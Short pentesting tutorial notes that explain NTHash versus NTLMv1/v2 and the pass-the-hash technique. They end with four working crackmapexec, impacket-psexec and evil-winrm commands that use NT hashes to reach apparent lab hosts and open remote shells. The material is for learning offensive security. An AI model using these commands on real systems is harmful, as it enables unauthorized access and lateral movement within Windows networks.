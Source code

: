 ```yaml
---
legal-banner: true
---
```


### **INTRODUCTION**

NTLMv1, NTLMv2 and NThash are all confusing terms and used interchangeably but let’s settle this once and for all:

1. NTHash: this is the hash of the password stored in the system in SAM hive and in active directory networks in the NTDS file.
2. NTLMv1: this is a challenge/response protocol to authenticate to a system using the NTHash.
3. NTLMv2: this is the newer version of the NTLM protocol with some adjustments but the same concept.

Now that we’ve settled this, let’s get back to business.

### **PASS-THE-HASH**

PtH or Pass-the-Hash attack is an attack where the attacker passes NTHash to systems instead of passwords. Remember NTLM? We as an end user type our password and let the system send it through a hashing algorithm to become NTHash and then send that to NTLM to authenticate us to the target system. Now in PtH, instead of typing the password and letting the system make a hash out of it for us, we pass the already found NThash, skipping those steps before authentication.

`crackmapexec smb 192.168.154.171 -u 'ted' -d 'exam.com' -H ':31aa99ebd6ea4b6d07051acfd48efa35' --shares`

`impacket-psexec -hashes ":d098fa8675acd7d26ab86eb2581233e5" exam.com/zensvc@192.168.154.170`

`impacket-psexec -hashes ":d098fa8675acd7d26ab86eb2581233e5"zensvc@192.168.154.170`

`evil-winrm -i 10.10.10.161 -u Administrator -H 32693b11e6aa90eb43d32c72a07ceea6`